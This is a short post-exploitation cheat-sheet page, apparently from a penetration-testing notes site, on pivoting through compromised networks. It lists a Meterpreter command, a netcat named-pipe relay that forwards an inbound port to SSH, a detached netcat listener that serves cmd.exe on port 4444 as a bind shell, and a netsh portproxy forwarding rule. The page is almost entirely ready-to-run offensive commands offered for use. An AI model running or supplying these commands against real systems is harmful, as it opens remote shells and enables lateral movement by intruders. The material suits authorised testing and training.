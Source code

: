 ```yaml
---
title: Pivot
category: Post-Exploitation
order: 97
---
```


>**Metasploit and Meterpreter**
{% highlight bash %}
meterpreter> ipconfig 


{% endhighlight %}

> **Netcat Relay** 

Relay | <code> Mknod backpipe p <br> nc -l -p [allowed_inbound_port] 0<backpipe | nc 127.0.0.1 22 1>backpipe <br> ssh login@[target] -p [allowed_inbound_port] </code>
Remote Netcat (detached) | <code> nc.exe -d -l -p 4444 -e cmd.exe </code>

> **netsh pivot** 

netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>

> **useful resources** 

http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet

